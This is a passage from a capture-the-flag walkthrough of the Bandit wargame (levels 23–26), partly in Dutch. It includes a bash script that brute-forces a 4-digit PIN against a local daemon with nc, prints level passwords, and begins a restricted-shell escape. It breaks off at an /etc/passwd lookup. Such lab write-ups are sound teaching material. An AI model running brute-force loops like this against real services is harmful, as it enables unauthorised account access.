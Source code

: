 bandit23@bandit:/tmp/jasper123$ cat /tmp/bandit24_password
cat: /tmp/bandit24_password: No such file or directory

WAIT FOR the cronjob to be executed

bandit23@bandit:/tmp/jasper123$ cat /tmp/bandit24_password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Level 24 - 26

### Level 24 -> Level 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

Maak het bruteforce script ([brute-force.sh](./brute-force.sh))

```
bandit24@bandit:/tmp$ nano brute-force.sh
```

``` sh
#!/bin/bash

# Bandit24's password
password="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

# Loop through all possible 4-digit pins
for pin in {0000..9999}; do
    echo "$password $pin" 
done | nc localhost 30002
```

```bandit24@bandit:/tmp$ chmod 777 brute-force.sh```

```
bandit24@bandit:/tmp$ ./brute-force.sh
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

(pin was 9297)

### Level 25 -> Level 26

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.

```ssh, cat, more, vi, ls, id, pwd```

```
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
